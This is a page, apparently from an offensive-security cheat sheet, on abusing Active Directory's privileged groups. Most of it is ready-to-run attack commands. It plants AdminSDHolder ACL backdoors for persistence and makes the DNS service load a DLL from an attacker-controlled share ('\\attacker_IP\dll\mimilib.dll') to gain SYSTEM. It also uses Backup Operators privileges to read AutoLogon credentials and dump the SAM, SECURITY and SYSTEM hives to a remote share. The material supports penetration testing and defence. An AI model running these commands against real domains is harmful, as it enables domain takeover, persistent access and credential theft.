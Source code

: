 # Active Directory - Groups

## Dangerous Built-in Groups Usage

If you do not want modified ACLs to be overwritten every hour, you should change ACL template on the object `CN=AdminSDHolder,CN=System` or set `adminCount` attribute to `0` for the required object.

> The AdminCount attribute is set to `1` automatically when a user is assigned to any privileged group, but it is never automatically unset when the user is removed from these group(s).

Find users with `AdminCount=1`.

```ps1
netexec ldap 10.10.10.10 -u username -p password --admin-count
# or
bloodyAD --host 10.10.10.10 -d example.lab -u john -p pass123 get search --filter '(admincount=1)' --attr sAMAccountName
# or
python ldapdomaindump.py -u example.com\john -p pass123 -d ';' 10.10.10.10
jq -r '.[].attributes | select(.adminCount == [1]) | .sAMAccountName[]' domain_users.json
# or
Get-ADUser -LDAPFilter "(objectcategory=person)(samaccountname=*)(admincount=1)"
Get-ADGroup -LDAPFilter "(objectcategory=group) (admincount=1)"
# or
([adsisearcher]"(AdminCount=1)").findall()
```

## AdminSDHolder Attribute

> The Access Control List (ACL) of the AdminSDHolder object is used as a template to copy permissions to all "protected groups" in Active Directory and their members. Protected groups include privileged groups such as Domain Admins, Administrators, Enterprise Admins, and Schema Admins.

If you modify the permissions of **AdminSDHolder**, that permission template will be pushed out to all protected accounts automatically by `SDProp` (in an hour).

E.g: if someone tries to delete this user from the Domain Admins in an hour or less, the user will be back in the group.

* Windows/Linux:

  ```ps1
  bloodyAD --host 10.10.10.10 -d example.lab -u john -p pass123 add genericAll 'CN=AdminSDHolder,CN=System,DC=example,DC=lab' john

  # Clean up after
  bloodyAD --host 10.10.10.10 -d example.lab -u john -p pass123 remove genericAll 'CN=AdminSDHolder,CN=System,DC=example,DC=lab' john
  ```

* Windows only:

  ```ps1
  # Add a user to the AdminSDHolder group:
  Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=domain,DC=local' -PrincipalIdentity username -Rights All -Verbose

  # Right to reset password for toto using the account titi
  Add-ObjectACL -TargetSamAccountName toto -PrincipalSamAccountName titi -Rights ResetPassword

  # Give all rights
  Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName toto -Verbose -Rights All
  ```

## DNS Admins Group

> It is possible for the members of the DNSAdmins group to load arbitrary DLL with the privileges of dns.exe (SYSTEM).

:warning: Require privileges to restart the DNS service.

* Enumerate members of DNSAdmins group
    * Windows/Linux:

    ```ps1
    bloodyAD --host 10.10.10.10 -d example.lab -u john -p pass123 get object DNSAdmins --attr msds-memberTransitive
    ```

    * Windows only:

    ```ps1
    Get-NetGroupMember -GroupName "DNSAdmins"
    Get-ADGroupMember -Identity DNSAdmins
    ```

* Change dll loaded by the DNS service

    ```ps1
    # with RSAT
    dnscmd <servername> /config /serverlevelplugindll \\attacker_IP\dll\mimilib.dll
    dnscmd 10.10.10.11 /config /serverlevelplugindll \\10.10.10.10\exploit\privesc.dll

    # with DNSServer module
    $dnsettings = Get-DnsServerSetting -ComputerName <servername> -Verbose -All
    $dnsettings.ServerLevelPluginDll = "\attacker_IP\dll\mimilib.dll"
    Set-DnsServerSetting -InputObject $dnsettings -ComputerName <servername> -Verbose
    ```

* Check the previous command success

    ```ps1
    Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
    ```

* Restart DNS

    ```ps1
    sc \\dc01 stop dns
    sc \\dc01 start dns
    ```

## Schema Admins Group

> The Schema Admins group is a security group in Microsoft Active Directory that provides its members with the ability to make changes to the schema of an Active Directory forest. The schema defines the structure of the Active Directory database, including the attributes and object classes that are used to store information about users, groups, computers, and other objects in the directory.

## Backup Operators Group

> Members of the Backup Operators group can back up and restore all files on a computer, regardless of the permissions that protect those files. Backup Operators also can log on to and shut down the computer. This group cannot be renamed, deleted, or moved. By default, this built-in group has no members, and it can perform backup and restore operations on domain controllers.

This groups grants the following privileges :

* SeBackup privileges
* SeRestore privileges

Get members of the group:

* Windows/Linux:

    ```ps1
    bloodyAD --host 10.10.10.10 -d example.lab -u john -p pass123 get object "Backup Operators" --attr msds-memberTransitive
    ```

* Windows only:

    ```ps1
    PowerView> Get-NetGroupMember -Identity "Backup Operators" -Recurse
    ```

Enable privileges using [giuliano108/SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege)

```ps1
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

Retrieve sensitive files

```ps1
Copy-FileSeBackupPrivilege C:\Users\Administrator\flag.txt C:\Users\Public\flag.txt -Overwrite
```

Retrieve content of AutoLogon in the `HKLM\SOFTWARE` hive

```ps1
$reg = [Microsoft.Win32.RegistryKey]::OpenRemoteBaseKey('LocalMachine', 'dc.htb.local',[Microsoft.Win32.RegistryView]::Registry64)
$winlogon = $reg.OpenSubKey('SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon')
$winlogon.GetValueNames() | foreach {"$_ : $(($winlogon).GetValue($_))"}
```

Retrieve `SAM`,`SECURITY` and `SYSTEM` hives

* [mpgn/BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA): `.\BackupOperatorToDA.exe -t \\dc1.lab.local -u user -p pass -d domain -o \\10.10.10.10\SHARE\`
* [improsec/BackupOperatorToolkit](https://github.com/improsec/BackupOperatorToolkit): `.\BackupOperatorToolkit.exe DUMP \\PATH\To\Dump \\TARGET.DOMAIN.DK`

## References

* [Poc’ing Beyond Domain Admin - Part 1 - cube0x0](https://cube0x0.github.io/Pocing-Beyond-DA/)
* [WHAT’S SPECIAL ABOUT THE BUILTIN ADMINISTRATOR ACCOUNT? - 21/05/2012 - MORGAN SIMONSEN](https://morgansimonsen.com/2012/05/21/whats-special-about-the-builtin-administrator-account-12/)
